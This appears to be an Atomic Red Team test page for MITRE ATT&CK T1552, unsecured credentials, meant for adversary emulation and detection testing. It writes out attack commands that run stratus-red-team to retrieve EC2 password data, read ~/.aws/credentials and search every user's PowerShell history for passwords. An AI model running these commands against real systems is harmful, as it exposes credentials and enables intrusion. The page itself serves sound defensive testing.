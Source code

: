 # T1552 - Unsecured Credentials
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552)
<blockquote>

Adversaries may search compromised systems to find and obtain insecurely stored credentials. These credentials can be stored and/or misplaced in many locations on a system, including plaintext files (e.g. [Bash History](https://attack.mitre.org/techniques/T1552/003)), operating system or application-specific repositories (e.g. [Credentials in Registry](https://attack.mitre.org/techniques/T1552/002)),  or other specialized files/artifacts (e.g. [Private Keys](https://attack.mitre.org/techniques/T1552/004)).(Citation: Brining MimiKatz to Unix)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - AWS - Retrieve EC2 Password Data using stratus](#atomic-test-1---aws---retrieve-ec2-password-data-using-stratus)

- [Atomic Test #2 - Search for Passwords in Powershell History](#atomic-test-2---search-for-passwords-in-powershell-history)


<br/>

## Atomic Test #1 - AWS - Retrieve EC2 Password Data using stratus
This atomic runs an API call GetPasswordData from a role that does not have permission to do so. This simulates an attacker attempting to retrieve RDP passwords on a high number of Windows EC2 instances. This atomic test leverages a tool called stratus-red-team built by DataDog (https://github.com/DataDog/stratus-red-team). Stratus Red Team is a self-contained binary. You can use it to easily detonate offensive attack techniques against a live cloud environment. Ref: https://stratus-red-team.cloud/attack-techniques/AWS/aws.credential-access.ec2-get-password-data/

**Supported Platforms:** Linux, macOS, Iaas:aws


**auto_generated_guid:** a21118de-b11e-4ebd-b655-42f11142df0c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| stratus_path | Path of stratus binary | path | $PathToAtomicsFolder/T1552/src|
| aws_region | AWS region to detonate | string | us-west-2|


#### Attack Commands: Run with `sh`! 


```sh
export AWS_REGION=#{aws_region} 
cd #{stratus_path}
echo "starting warmup"
./stratus warmup aws.credential-access.ec2-get-password-data
echo "starting detonate"
./stratus detonate aws.credential-access.ec2-get-password-data --force
```

#### Cleanup Commands:
```sh
export AWS_REGION=#{aws_region}
echo "Cleanup detonation"
cd #{stratus_path}
./stratus cleanup --all
rm -rf stratus*
```



#### Dependencies:  Run with `sh`!
##### Description: Stratus binary must be present at the (#{stratus_path}/stratus)
##### Check Prereq Commands:
```sh
if [ -f #{stratus_path}/stratus ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
if [ "$(uname)" == "Darwin" ]
then DOWNLOAD_URL=$(curl -s https://api.github.com/repos/DataDog/stratus-red-team/releases/latest | grep browser_download_url | grep Darwin_x86_64 | cut -d '"' -f 4); wget -q -O #{stratus_path}/stratus-red-team-latest.tar.gz $DOWNLOAD_URL
  tar -xzvf #{stratus_path}/stratus-red-team-latest.tar.gz --directory #{stratus_path}/
elif [ "$(expr substr $(uname) 1 5)" == "Linux" ]
then DOWNLOAD_URL=$(curl -s https://api.github.com/repos/DataDog/stratus-red-team/releases/latest | grep browser_download_url | grep Linux_x86_64 | cut -d '"' -f 4) 
  wget -q -O #{stratus_path}/stratus-red-team-latest.tar.gz $DOWNLOAD_URL
  tar -xzvf #{stratus_path}/stratus-red-team-latest.tar.gz --directory #{stratus_path}/
fi
```
##### Description: Check if ~/.aws/credentials file has a default stanza is configured
##### Check Prereq Commands:
```sh
cat ~/.aws/credentials | grep "default"
```
##### Get Prereq Commands:
```sh
echo Please install the aws-cli and configure your AWS defult profile using: aws configure
```




<br/>
<br/>

## Atomic Test #2 - Search for Passwords in Powershell History
Find passwords in the powershell history files
Searching for following strings: "password", "-p", "key", "pwd", "pass"

**Supported Platforms:** Windows


**auto_generated_guid:** f9c3d0ab-479b-4019-945f-22ace2b1731a






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
ls -R C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt | Select-String "password", "-p", "key", "pwd", "pass"
```






<br/>
